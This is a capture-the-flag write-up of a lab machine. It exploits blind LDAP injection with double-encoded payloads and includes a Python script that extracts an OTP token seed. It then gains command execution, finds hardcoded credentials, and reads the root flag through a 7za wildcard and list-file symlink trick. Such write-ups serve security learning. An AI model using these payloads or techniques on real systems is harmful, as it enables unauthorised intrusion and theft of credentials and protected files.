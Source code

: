 ![image|center|300](../../img/CTF.png)
## Recon
As always we will start with `nmap` to scan for open ports and services. Only `http` on port 80 and `ssh` on port 22
![](../../img/Pasted%20image%2020230511095255.png)

## HTTP Initial Enumeration
![](../../img/Pasted%20image%2020230511095511.png)

It's pretty straightforward that we will get banned for 5 minutues if we tried to bruteforce anything, like sub directories for example. It's also saying that they handle authentication with tokens, there's a login page so let's take a look at it.
![](../../img/Pasted%20image%2020230511095857.png)

We need a username and an `OTP`. An `OTP` is time limited which means that even if we could get a valid one it will give us access only once because it expries in a short time (usually 60 seconds). So we need to gain access to a place that generates valid `OTP` or to be able to generate valid `OTP` ourselves. Let's take a look at the source code of the login page, these comments look interesting:
```html
<!-- we'll change the schema in the next phase of the project (if and only if we will pass the VA/PT) -->
<!-- at the moment we have choosen an already existing attribute in order to store the token string (81 digits) -->
```

So now we know that they are using a token to generate the `OTP`, we also know that the length of the token is 81 digits. But I still couldn't figure out that part about the attribute they are using to store the token. I decided to bruteforce the username then return to the `OTP` thing again. I know what you are thinking, how will I bruteforce the username without getting banned? Well I tried to pass any credentials to see how will the application respond:
![](../../img/Pasted%20image%2020230511100819.png)
![](../../img/Pasted%20image%2020230511100844.png)

Here I noticed 2 things. First thing is that it is actually telling us if the user exists or not, which means that we can enumerate users. The other thing is that it responded normally with a `200 OK` response, so if the server identifies a bruteforce attack by monitoring how many times an ip causes errors like `404` for example, as long as we are not causing errors we won't get banned. I gave it a try to see if it will actually work. I used `wfuzz` and `multiplesources-users-fabian-fingerle.de.txt` from `seclists`. "user not found" responses have 233 words so I filtered them:
![](../../img/Pasted%20image%2020230511101713.png)

It worked and I didnt get banned, after some time I got a result which was `ldapuser`, that's weird. I also noticed that payloads that had special characters in them caused different response length. I tried `ldapuser` to see what is the other message:
![](../../img/Pasted%20image%2020230511102149.png)
![](../../img/Pasted%20image%2020230511102219.png)

I just got the login page back again without any message. I figured out that the username is being used in an `ldap` query, and it's injectable. Also that existing attribute where the token is stored in an `ldap` attribute. With the injection we have we can extract the token and use it to generate valid `OTP`. But beacause the injection is blind it will be kinda tricky to extract the token.

## LDAP Injection
As I said, it is blind injection which means that we won't get any results. But a payload like this: `*)(uid=*))(|(uid=*` should result in "Cannot login". However when I tried it I did not get any message, so i tried to URL encode the payload and it worked. So the injection works when then payload is double URL encode (I only encoded the payload once because the browser automatically encodes POST data). I switched to burp, here are the results
```
inputUsername=%25%32%61%25%32%39%25%32%38%25%37%35%25%36%39%25%36%34%25%33%64%25%32%61%25%32%39%25%32%39%25%32%38%25%37%63%25%32%38%25%37%35%25%36%39%25%36%34%25%33%64%25%32%61&inputOTP=0000
```

Now we need to know which attribute the token is stored in. We know it is an existing attribute so we just need to choose right one. I check `lap attributes` and chose some of them to test (command, page, and info), the payload will be like this: `*)(uid=*))(|(ATTRIBUTE=*` (instead of the second `uid` attribute we will use the attribute we are testing). We also know that the token is numeric so we can remove `*` and replace it with numeric values from 0 to 9 and monitor the responses (I used burp intruder to do this). So the final payload will be like this: `*)(uid=*))(|(ATTRIBUTE=N`. After some testing this payload with the attribute `pager` and value of 2: `*)(uid=*))(|(pager=2` resulted in "Cannot login" message. Great so out payload will be `*)(uid=*))(|(pager=2N` and we will bruteforce the second number again until we get "Cannot login". We will keep repeating this until we reach the 81st number, but doing this manually is lame and boring so I wrote a python script.

## Exploitation, Token Extraction
I created 3 functions:
- `send_payload`: To send the injection payload and receive the response
- `check_response`: To check whether the response contains "Cannot login" or not
- `exploit`: This function creates a list of numbers from 0-9, then by looping through that list it creates the payload which is: `%2A%29%28uid%3D%2A%29%29%28%7C%28pager%3D + token + number + %2A` (encoded only once because python requests automatically encodes POST data). Then it calls `send_payload` and `check_response`, if `check_response` returned `True` it adds the valid number to the token.

Then I wrote a `while` loop to keep calling `exploit()` as long as `len(token)` is not 81
```python
#!/usr/bin/python3
import requests
import sys
from time import sleep

YELLOW = "\033[93m"
GREEN = "\033[32m"

def send_payload(payload):
	sleep(1)
	post_data = {"inputUsername":payload,"inputOTP":"0000"}
	req = requests.post("http://10.129.71.194/login.php",data=post_data)
	response = req.text
	return response

def check_response(response):
	if "Cannot login" in response:
		return True
	else:
		return False

def exploit():
	global token
	n_list = [n for n in range(10)]
	for i in n_list:
		payload = "%2A%29%28uid%3D%2A%29%29%28%7C%28pager%3D{}{}%2A".format(token,str(i))
		response = send_payload(payload)
		if check_response(response):
			token+=str(i)

token = ""
print(YELLOW + "[*] Extracting Token")
while len(token) != 81:
	exploit()
	sys.stdout.write("\r" + YELLOW + "[*] Status : " + token)
	sys.stdout.flush()
else :
	print(GREEN + "\n[!] Done !")
	print(GREEN + "[*] Token : " + token)
```

It took some minutes to finish and now we have the token
![](../../img/Pasted%20image%2020230511113449.png)

I installed `stoken`. then I imported the token:
```bash
stoken import --token 285449490011357156531651545652335570713167411445727140604172141456711102716717000
```

And using stoken-gui
![|center|](../../img/Pasted%20image%2020230511113640.png)

## RCE, User Flag
Let's login and see what's there:
![](../../img/Pasted%20image%2020230511113844.png)

`%2a%29%28uid%3d%2a%29%29%28%7c%28uid%3d%2a` is `*)(uid=*))(|(uid=*` url-encoded.
It redirected me to `/page.php` which I can use to excute commands:
![](../../img/Pasted%20image%2020230511131826.png)

We can see that `ldapuser` is an actual user on the box, I tried to get a reverse shell but for some reason I could not get a reverse shell at all so I started to look in the web files. I was already in the web directory: `/var/www/html`

I listed the files, I started looking for any hardcoded credentials in the `php` file, in `login.php` I found credentials for `ldapuser`:
![](../../img/Pasted%20image%2020230511132542.png)

We owned user.
![](../../img/Pasted%20image%2020230511132826.png)

## 7z List File annd Wildcards, Root Flag
Before enumerating anything I just checked the directories and stuff like that, in / I saw a directory called `backup`. It had a lot of archives, an error log and a script called `honeypot.sh`
![](../../img/Pasted%20image%2020230511133738.png)

`honeypot.sh`
![](../../img/Pasted%20image%2020230511133834.png)

Obviously this script runs from time to time to backup files, also it is running as root. I did not check cronjob or use `pspy`, It was obvious since it is accessing `/root/root.txt` to create the password and only root can access that.
Basically one of the things that this script is doing is that it is backing up all the files in `/var/www/html/uploads` by using `7za` to put all the uploads in one achive. Let's look at the command again:
```bash
7za a /backup/$filename.zip -t7z -snl -p$pass -- *
```
It using the wildcard asterisk ( \* ) to get all file. This means that if we can write to `/var/www/html/uploads` our file will be included in the command. If we can create a malicious file name then we can somehow manipulate the `7za` command.
It is also using this option: `-snl`. I checked the manual page for `7za`: `-snl  Store symbolic links as links`

Note that we can't unzip the created backups, so even if we created a symlink to `root.txt` in `/var/www/html/uploads` we won't be able to read it because the archive is password protected. The only way to actually get anything is through the error log, we need to cause an error that somehow leaks the flag.
After searching for some time I found [Command Line Syntax (osdn.jp)](https://sevenzip.osdn.jp/chm/cmdline/syntax.htm) which talks about a feature in `7z` called list files. I throught if I created 2 files, `root.txt` and `@root.txt`, `root.txt` is a `symlink` to `/root/root.txt`, when the command is executed and gets to `@root.txt` it will treat that as a list file option then it will search for `root.txt` to use it as a list file. However that file is not a real list file (that may cause an error), also it is a `symlink` to  `/root/root.txt`

I went to `/var/www/html/uploads` and I did not even have read access. So I went back to the `RCE` requests in burp and tried as `apache`. I created a `symlink` to `/root/root.txt` as `root.txt`
```
inputCmd=ln -s /root/root.txt uploads/root.txt&inputOTP=91913130
```

Then I created an empty file and called it `@root.txt`
```
inputCmd=touch uploads/@root.txt&inputOTP=91913130
```

Let's check the directory listing now:
![](../../img/Pasted%20image%2020230511140214.png)

Everything is fine, let's check the error log and we owned root!
![](../../img/Pasted%20image%2020230511140007.png)

